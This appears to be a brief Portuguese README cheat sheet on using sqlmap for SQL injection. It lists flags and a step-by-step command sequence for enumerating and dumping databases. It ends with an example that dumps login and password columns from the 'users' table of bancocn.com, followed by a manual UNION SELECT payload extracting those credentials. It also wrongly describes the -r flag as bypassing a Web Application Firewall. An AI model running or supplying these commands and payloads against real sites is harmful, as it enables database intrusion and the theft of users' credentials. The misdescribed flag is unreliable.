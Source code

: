 # Como usar SQLMAP 💉🗺️🌐
## Flags:
- "-U ou -r" (Faz requisição http para o site ou lê cabeçalho com id de sessão armazenado para conexão que bypassa Web Application Firewall)
- "-D" (nome database)
- "-T" (nome tabela)
- "-C" (nome coluna)
- "--dbs" (lista bancos de dados)
- "--tables" (lista tabelas)
- "--columns" (lista colunas)
- "--dump" (faz dump das informações das colunas)

## Sintaxe
"sqlmap -u (link) --dbs" <strong>OU</strong> "sqlmap -r (header) --dbs" <br>
"sqlmap -u (link) -D (banco de dados selecionado)" <br>
"sqlmap -u (link) -D (banco de dados selecionado) --tables (lista tabelas)" <br>
"sqlmap -u (link) -D (banco de dados selecionado) -T (nome da tabela selecionada)" <br>
"sqlmap -u (link) -D (banco de dados selecionado) -T (nome da tabela selecionada) --columns (lista colunas)" <br>
"sqlmap -u (link) -D (banco de dados selecionado) -T (nome da tabela selecionada) -C (seleciona colunas, separe as colunas por vírgulas) --dump (para exibí-las)" <br>

## Exemplo
<strong>sqlmap -u [http://bancocn.com] -D bancocn -T users -C login,password --dump</strong>

## Exploitation BancoCN SQL Injection
-1 UNION SELECT 1,2,group_concat(id,";",login,";",password) FROM users
